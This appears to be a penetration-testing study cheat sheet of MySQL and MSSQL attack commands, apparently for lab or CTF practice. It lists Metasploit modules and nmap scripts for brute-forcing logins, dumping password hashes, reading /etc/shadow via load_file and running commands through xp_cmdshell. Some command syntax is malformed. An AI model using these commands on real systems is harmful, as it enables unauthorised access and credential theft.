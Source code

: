 # **MYSQL**

Default port: 3306  
Logging into Mysql on remote host -- ```mysql -h (IP address) -u root -p (password)```

**Using database**  
```show databases ---then type semicolon```  
```use (database name);```  
```select count(*) from authors;```  
```select * from authors```  

**Finding Writable directories**  
Metasploit Module -- scanner/mysql/mysql_writable_dirs  
Finding hashes  -- ```use auxiliary/scanner/mysql/mysql_hashdump```  
Getting the full etc/shadow file -- ```select load_file("/etc/shadow");```

### Metasploit  
#### Modules 
- **auxiliary/scanner/mysql/mysql_version** -- Find Mysql Version
- **auxiliary/scanner/mysql/mysql_login** -- Used for brute force logins. Set PASS_FILE
- **auxiliary/admin/mysql/mysql_enum** -- TO use this, we require credentials
- **auxiliary/admin/mysql/mysql_sql - MOST IMPORTANT** -- allows us to execute SQL queries
  - example queries.
    - show databases; - displays list of all databases
    - use (database name); - sents statement
- **auxiliary/scanner/mysql/mysql_schemadump** -- get a schema of the mysql environment
- **auxiliary/scanner/mysql/mysql_file_enum** --
- **auxiliary/scanner/mysql/mysql_hashdump** --
- **auxiliary/scanner/mysql/mysql_writable_dirs** --

User File -- /usr/share/metasploit-framework/data/wordlists/common_users.txt  
Password File -- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  
 
Execute commands -- Login Module -- auxiliary/scanner/mysql_exec  
Enumerate domain accounts -- Login Module -- auxiliary/scanner/mysql/mysql_enum_domain_accounts

# **MSSQL**

Nmap scripts  
```nmap (ip address) -p (port number) --script ms-sql-info```  
```nmap (ip address) -p (port number) --script ms-sql-ntlm-info --script-args mssql.instance-port=1433```  
```nmap (ip address) -p (port number) --script ms-sql-brute --script-args userdb=/root/Dessktop/wordlist/common_users.txt,passdb=/root/Dekstop/wordlist/100-common-passwords.txt```  
```nmap (ip address) -p (port number) --script ms-empty-password```  
```nmap (ip address) -p (port number) --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt```  
```nmap (ip address) -p (port number) --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria```  
```nmap (ip address) -p (port number) --script ms-sql-xp-cmdshell.cmd="type c:\flag.txt ```

